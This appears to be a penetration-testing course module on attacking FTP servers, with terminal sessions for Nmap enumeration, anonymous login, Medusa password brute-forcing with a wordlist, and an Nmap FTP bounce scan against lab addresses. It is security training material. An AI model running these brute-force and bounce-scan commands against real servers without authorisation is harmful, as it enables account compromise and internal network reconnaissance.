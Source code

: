 # Attacking FTP

The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port `TCP/21`.

To attack an FTP Server, we can abuse misconfiguration or excessive privileges, exploit known vulnerabilities or discover new vulnerabilities. Therefore, after gaining access to the FTP Service, we need to be aware of the content in the directory so we can search for sensitive or critical information, as we previously discussed. The protocol is designed to trigger downloads and uploads with commands. Thus, files can be transferred between servers and clients. A file management system is available to the user, known by the operating system. Files can be stored in folders, which may be located in other folders. This results in a hierarchical directory structure. Most companies use this service for software or website development processes.

---

# **Enumeration**

`Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) Nmap script which checks if a FTP server allows anonymous logins. The version enumeration flag `-sV` provides interesting information about FTP services, such as the FTP banner, which often includes the version name. We can use the `ftp` client or `nc` to interact with the FTP service. By default, FTP runs on TCP port 21.

### **Nmap**

Attacking FTP

```
xnoxos@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 22:04 EDT
Nmap scan report for 192.168.2.142
Host is up (0.00054s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 1170     924            31 Mar 28  2001 .banner
| d--x--x--x   2 root     root         1024 Jan 14  2002 bin
| d--x--x--x   2 root     root         1024 Aug 10  1999 etc
| drwxr-srwt   2 1170     924          2048 Jul 19 18:48 incoming [NSE: writeable]
| d--x--x--x   2 root     root         1024 Jan 14  2002 lib
| drwxr-sr-x   2 1170     924          1024 Aug  5  2004 pub
|_Only 6 shown. Use --script-args ftp-anon.maxlist=-1 to see all.

```

---

# **Misconfigurations**

As we discussed, anonymous authentication can be configured for different services such as FTP. To access with anonymous login, we can use the `anonymous` username and no password. This will be dangerous for the company if read and write permissions have not been set up correctly for the FTP service. Because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

This would enable us to download this sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, we would be able to find out where this file is located and execute it as PHP code, for example.

### **Anonymous Authentication**

Attacking FTP

```
xnoxos@htb[/htb]$ ftp 192.168.2.142
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.

```

Once we get access to an FTP server with anonymous credentials, we can start searching for interesting information. We can use the commands `ls` and `cd` to move around directories like in Linux. To download a single file, we use `get`, and to download multiple files, we can use `mget`. For upload operations, we can use `put` for a simple file or `mput` for multiple files. We can use `help` in the FTP client session for more information.

In the [Footprinting](https://academy.hackthebox.com/course/preview/footprinting) module, we cover detailed information about possible misconfigurations of such services. For example, many different settings can be applied to an FTP server, and some of them lead to different options that could cause possible attacks against that service. However, this module will focus on specific attacks rather than finding individual misconfigurations.

---

# **Protocol Specifics Attacks**

Many different attacks and methods are protocol-based. However, it is essential to note that we are not attacking the individual protocols themselves but the services that use them. Since there are dozens of services for a single protocol and they process the corresponding information differently, we will look at some.

### **Brute Forcing**

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, [Medusa](https://github.com/jmk-foofus/medusa). With `Medusa`, we can use the option `-u` to specify a single user to target, or you can use the option `-U` to provide a file with a list of usernames. The option `-P` is for a file containing a list of passwords. We can use the option `-M` and the protocol we are targeting (FTP) and the option `-h` for the target hostname or IP address.

**Note:** Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.

### **Brute Forcing with Medusa**

Attacking FTP

```
xnoxos@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]

```

### **FTP Bounce Attack**

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

![](https://academy.hackthebox.com/storage/modules/116/ftp_bounce_attack.png)

Source:

[https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)

The `Nmap` -b flag can be used to perform an FTP bounce attack:

Attacking FTP

```
xnoxos@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>

```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.

When you spawn your target, please wait up to 60 more seconds after seeing the IP address to ensure the corresponding service is launched correctly.